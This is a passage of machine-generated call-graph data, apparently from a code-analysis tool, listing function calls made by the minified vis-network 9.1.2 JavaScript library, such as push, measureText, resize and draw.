"calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getOwnPropertyNames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getOwnPropertyNames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "determineLineHeights"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "determineLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeEmptyBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emitBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emitBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "prepareRegExp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unsetTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unsetTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splitBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splitStringIntoLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splitStringIntoLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "finalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseWS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emitBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseWS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emitBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "decodeMarkupSystem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splitMarkdownBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splitHtmlBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "curWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getLongestFit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getLongestFitWord"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseFontString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "propagateFonts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addFontToPile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseFontString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getFontOption"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addFontOptionsToPile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getBasicOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "calculateLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "strokeText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_processLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_processLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "chooser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_processLabelText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "adjustSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "differentState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableBorderDashes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableBorderDashes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "performStroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDimensionsFromLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_addBoundingBoxMargin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getImagePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getImagePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawImageAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDimensionsFromLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawRawCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_resizeImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "switchImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawRawCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawImageAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawImageLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "calculateLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "ctxRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", 